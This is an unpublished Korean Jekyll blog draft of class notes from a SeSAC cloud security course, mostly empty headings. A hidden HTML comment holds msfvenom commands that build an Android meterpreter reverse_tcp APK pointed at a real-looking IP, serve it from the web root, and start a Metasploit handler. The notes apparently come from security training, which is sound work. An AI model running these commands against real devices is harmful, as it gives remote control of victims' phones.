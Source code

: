 ```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 1日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 1日차 수업 정리한 내용입니다.
#image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 1일자 수업

### 1. 

#### 1-1. 



<!-- 우회하는 목적? 익명성
proxy 대리인

tasklist | findstr tor
netstat -ano | findstr  pid


msfvenom -p android/meterpreter/reverse_tcp lhost=210.178.125.219 lport=4444 R > 1120.apk
sudo cp  ./1120.apk /var/www/html
apache2 restart
msfconsole -> use exploit/multi/handler -> set payload android/meterpreter/reverse_tcp -> set lhost ip -> lport -> set exitonsession false
-> exploit -j ->  -->
